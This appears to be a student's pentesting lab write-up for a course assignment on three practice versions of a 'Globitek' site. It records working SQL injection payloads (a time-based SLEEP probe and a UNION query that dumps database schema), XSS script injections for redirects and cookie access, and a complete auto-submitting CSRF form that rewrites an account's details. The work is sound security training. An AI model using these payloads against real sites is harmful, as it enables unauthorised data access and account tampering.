

# Week 9 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking/Fixation
Steps to recreate:
  1. Log in on one browser and use the hacktools/change_session_id.php script to get your session ID.
  2. On a different browser, change your session ID to match the previous one you recived using hacktools/change_sessions_id.php.
  3. You can now log in to the same account on the new browser without having to enter a password since it has the same session id as the other browser.
  


Vulnerability #2: SQL Injection (SQLi)

Steps to recreate:
  1. Visit the page of any sales person.
  2. In the url, instead of ```id=1```, write ```id=' OR SLEEP(5)=0--'```, in the sleep() function you can change the seconds to chage the loading time. 
  3. This causes the page to continue loading for the specified amount of time in seconds. 
  


## Green

Vulnerability #1: Username Enumeration

Steps to recreate:
  1. Trying to log in with a username that exists results in bold text saying failed to log in. The html class is listed as "failure".
  2. Trying to log in with a username that doesn't exist results in a text saying failed to log in that is not bolded. The html class is also differenct and listed as "failed".
  
  3. The green developer made different classes for a username that does exist and a username that doesn't exist. The other two developers use the same "failure" class for both cases. 
  
  
  
Vulnerability #2:Cross-Site Scripting (XSS)

Steps to recreate:
  1. Go to the contact tab and fill out the form with the following inside the feedback section:
  ```<script>alert('Owen found the XSS');</script>```
  2. Now when a user logs in and checks the feedback tab, the script will be ran and there will be a message with the alert. 
  


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)

Steps to recreate:
  1. You can view any salesperson's page by changing the value of the id in the url

  2. ID 10 or 11 shouldn't be accessible by a user that is not logged in. When trying to check ID number 10 or 11 for other colors the pages redirect to the main page.
  
  

Vulnerability #2:Cross-Site Request Forgery (CSRF)

Steps to recreate:
  1. Logging in and running the html file causes the users name to be changed according to the info entered in the html file. 
  2. For example, if an authenticated user loaded a page with the following sample HTML, the information for salesperson with id 1 will change to whatever is in the html file without the action being visible to the user:
  
  ```
<iframe src="https://giphy.com/embed/de5bARu0SsXiU" width="0" height="0" frameBorder="0" id="gif" name="gif"></iframe>

<form action="https://104.198.208.81/red/public/staff/users/edit.php?id=1" method="post" id="leform" target="gif">
    <input name="csrf_token" value="ae0c79a6ab8d30d1c0c147699df11fe8" type="hidden">
    <input name="first_name" value="Owen" type="hidden">
    <input name="last_name" value="Ah" type="hidden">
    <input name="username" value="YouHaveBeenHACKED" type="hidden">
    <input name="email" value="hijacked@email.com" type="hidden">
    <input name="previous_password" value="" type="hidden">
    <input name="password" value="" type="hidden">
    <input name="confirm_password" value="" type="hidden">
  </form>

<script>document.getElementById("leform").submit();</script>

<iframe src="https://giphy.com/embed/de5bARu0SsXiU" width="480" height="253" frameBorder="0" class="giphy-embed" allowFullScreen id="gif
" name="gif"></iframe>
```
  
  
  
## Optional
  
**Bonus Objective 1: Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.**
  
 Steps to recreate:
    1. We took advatage of blue and injected the following SQL query in the url to get the names of tables and columns:
    
    ```
    ' AND 0 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name,0x2e,column_name,"\n") FROM information_schema.columns WHERE table_schema=database(); -- -
    ```
    
   
   
**Bonus Objective 2: Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.**
 
 Steps to recreate:
    1. I was able to insert ```<script>document.location="https://www.google.com"</script>``` into the feedback page form to redirect the user to a new URL.
     2. I am pretty sure that inserting ```<script>document.cookie = "username=Jonny";</script>``` into the form would set cookie data and inserting ```<script>alert(document.cookie);</script>``` into the form would read cookie data. However, I was unable to test the XSS because I wasn't able to reset the feedback page therefore the URL redirection is executed before the cookie script can run.
    
  
  
## Notes

Describe any challenges encountered while doing the work?
This was a bit tedious, I had hard time with writing a html form for cross-site scripting forgery. In general, it took longer than previous weeks as I had to check different targets for different vulnerabilities. Furthermore, not being able to reset the feedback didn't allow me to execute few of the other scripts I wanted to run.  
